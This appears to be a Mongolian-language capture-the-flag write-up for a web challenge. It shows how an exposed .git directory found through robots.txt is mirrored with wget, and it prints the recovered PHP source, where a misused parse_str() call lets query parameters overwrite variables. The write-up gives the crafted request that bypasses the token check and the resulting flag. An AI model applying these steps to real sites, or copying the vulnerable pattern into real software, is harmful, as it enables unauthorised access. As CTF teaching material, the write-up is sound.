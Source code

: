 # Алдаатай API
**Category:** Web
**Points:** 1000
**Description:**

Шинэхэн инженерт API бичих ажил ноогдов

http://218.100.84.106:8011


## Write-up
Вебийн `/robots.txt` файл руу орж үзвэл:

```
User-agent: *
Disallow: /.git
```

`/.git`-руу орж үзвэл "Index of /.git" гээд directory доторх файлуудын жагсаалт гарч ирэв:
![index-of-git](index-of-git.png)

Энэ directory доторх бүх файлуудыг татаж авъя:
```sh
wget --execute="robots=off" --mirror --no-parent http://218.100.84.106:8011/.git/
```

Одоо `.git` агуулсан directory-руу орж `gitk .` гэсэн коммандыг бичиж git-н түүхийг харъя. Энд байгаа код одоо ажиллаж буй код байх өндөр магадлалтай.

```php
// index.php
<?php
require_once 'flag.php';

$res = null;
$action = null;

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'get_user'){
    echo json_encode(
        array(
            array('id'=>1, 'user'=>'dorj', 'created_at'=>'1537259795', 'member_of'=>'superuser,hz_admin', 'access_token'=>'<*** masked ***>'),
            array('id'=>2, 'user'=>'bat', 'created_at'=>'1537259896', 'member_of'=>'user', 'access_token'=>'<*** masked ***>')
        )
    );
} elseif ($action === 'login_user') {
    $user = $res['user'];
    $access_token = $res['access_token'];

    if (!empty($user) && !empty($pass)) {
        $hashed_token = hash('md5', $user.$access_token);
    }
    if (!empty($hashed_token) && $hashed_token === '7a6e40e23f8ed20b9e54a47d2cb67ba5') {
        echo $flag;
    } else {
        echo 'False token!';
    }
} else {
    echo json_encode(array('action_list'=>array('get_user', 'login_user')));
}
```

Шинэхэн инженер маань `parse_str()` функцын ажиллагааг буруу ойлгосон бололтой, алдаатай ашигласан байна. `parse_str($query)`-ээс дараах утгуудыг гаргаж чадвал flag-руу хандах нь ээ:
```
$action = "login_user"
$hashed_token = "7a6e40e23f8ed20b9e54a47d2cb67ba5"
```

Ингээд `/?action=login_user&hashed_token=7a6e40e23f8ed20b9e54a47d2cb67ba5` гэж вебийг дуудсанаар зорилтондоо хүрлээ:

```
hz{2ead56d93095f15ad3fbee9fb0054d28}
```

## Other write-ups and resources

